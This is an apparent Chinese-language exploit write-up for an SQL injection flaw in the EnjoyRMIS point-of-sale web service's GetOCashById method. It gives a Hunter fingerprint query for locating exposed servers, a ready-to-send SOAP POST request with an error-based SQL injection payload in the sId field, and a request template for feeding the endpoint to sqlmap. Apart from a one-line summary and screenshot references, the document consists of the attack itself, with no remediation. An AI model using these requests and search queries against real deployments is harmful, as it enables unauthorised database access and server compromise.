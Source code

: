 # EnjoyRMIS GetOCashById存在SQL注入漏洞

# 一、漏洞简介
EnjoyRMIS GetOCashById存在SQL注入漏洞,攻击者可通过该漏洞获取数据库敏感信息甚至可控制服务器。

# 二、影响版本
+ EnjoyRMIS

# 三、资产测绘
+ hunter`web.body="CheckSilverlightInstalled"`
+ 特征

![1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89.png](./img/vYTtwPaoO6SfICoc/1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89-467876.png)

# 四、漏洞复现
```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOCashById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOCashById xmlns="http://tempuri.org/">
      <sId>string' AND 2187 IN (SELECT (CHAR(113)+CHAR(118)+CHAR(106)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (2187=2187) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(118)+CHAR(118)+CHAR(113))) AND 'uXof'='uXof</sId>
    </GetOCashById>
  </soap:Body>
</soap:Envelope>
```

![1700644453166-5bba5c8c-2b5d-4e26-b6b6-2d7a657b2f5c.png](./img/vYTtwPaoO6SfICoc/1700644453166-5bba5c8c-2b5d-4e26-b6b6-2d7a657b2f5c-009235.png)

sqlmap

```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOCashById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOCashById xmlns="http://tempuri.org/">
      <sId>string</sId>
    </GetOCashById>
  </soap:Body>
</soap:Envelope>
```

![1700644483934-6e89b9f0-7ece-400a-81b5-b7092b2fae79.png](./img/vYTtwPaoO6SfICoc/1700644483934-6e89b9f0-7ece-400a-81b5-b7092b2fae79-412026.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uggmgqbtlqn12ek2>